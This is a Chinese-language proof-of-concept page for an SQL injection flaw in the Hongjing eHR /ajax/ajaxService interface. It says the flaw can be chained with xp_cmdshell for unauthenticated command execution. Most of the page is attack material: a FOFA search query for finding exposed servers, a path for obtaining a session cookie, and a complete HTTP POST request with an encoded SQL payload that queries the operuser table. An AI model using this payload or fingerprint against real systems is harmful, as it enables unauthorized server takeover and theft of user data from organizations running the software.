# 宏景eHR系统ajaxService接口处存在SQL注入漏洞

宏景eHR /ajax/ajaxService 接口处存在SQL注入漏洞，,未经身份验证的远程攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

## fofa

```yaml
body="hjaxmanage.js" && (body="/template/signature/encryptionlock/websocket.js" || body="/ajax/basic.js")
```

## poc

获取cookie payload：

```yaml
/templates/index/getpassword.jsp
```

![效果图](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408062352731.png)

```yaml
POST /ajax/ajaxService HTTP/1.1
Host: 
Cookie: 抓到的cookie
Content-Type: application/x-www-form-urlencoded
 
__type=extTrans&__xml={"functionId":"151211001137","sql":"select~20sys.fn_sqlvarbasetostr(HASHBYTES('MD5','1'))~20a~30~31~30~30~2c~31~20a~30~31~30~31~2c~31~20b~30~31~31~30~2c~31~20e~30~31~32~32~2c~31~20e~30~31a~31~2c~31~20dbase~2c~31~20a~30~30~30~30~20from~20operuser","nbase":"1"}
```

![效果图](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408062351899.png)